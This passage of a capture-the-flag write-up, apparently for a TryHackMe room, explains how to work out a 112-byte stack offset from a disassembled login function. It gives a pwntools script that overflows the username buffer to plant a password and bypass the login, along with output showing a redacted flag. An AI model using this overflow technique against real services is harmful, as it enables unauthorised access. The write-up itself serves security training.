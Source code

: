 ![Login function disassembly](/img/thm-hackfinity-2025/login-function.png)

The program is likely compiled for **x86_64** architecture (but this is fully a guess and there is no acual way to know that from the running service). Thus, we know it likely uses System-V ABI calling convention where arguments are first passed into registers (1st arg in `rdi`, 1nd in `rsi`, etc... look at [this ressource](https://wiki.osdev.org/System_V_ABI#x86-64)).

By analyzing the argument setup for the two `strcmp` calls, we notice the input argument address in the `rdi` registers (`[rbp+var_E0]` and `[rbp+var_70]`). These are stack variables and that's why they are indexed from `rbp`, so to know the actual offset from the start of our first input at `rbp-0xE0` (`-` because stack grows backward, from high to low addresses), to the password buffer at `rbp-0x70`, we just substract them (giving an offset of 112 bytes).

Now we know everything we need to exploit this binary, we will craft the exploit code that write the username in its right location (making sure to append an `\0` so `strcmp` doesn't read all our input), overflow username so we can put the password at the right location.

```python
from pwn import *
import argparse
import time

parser = argparse.ArgumentParser()

parser.add_argument('ip')

args = parser.parse_args()

p = remote(args.ip, 1337)

print(p.recv(timeout=1))

payload = flat(
    b"bytereaper\0",
    b"P"*(112-11),
    b"5up3rP4zz123Byte\0"
)

time.sleep(0.5)

p.sendline(payload)

print(p.recvall(timeout=1))
```

And running it gives us the flag:
```shell
$ python3 exploit.py 10.10.211.12
[+] Opening connection to 10.10.211.12 on port 1337: Done
b'  ______ _          __      __         _ _   \n |  ____| |         \\ \\    / /        | | |  \n | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n                  __/ |                      \n                 |___/                       \n                                             \nVersion 1.0 - Passwordless authentication evolved!\n==================================================================\n'
[+] Receiving all data: Done (34B)
[*] Closed connection to 10.10.211.12 port 1337
b'\nUsername: THM{XXX}\n'
```
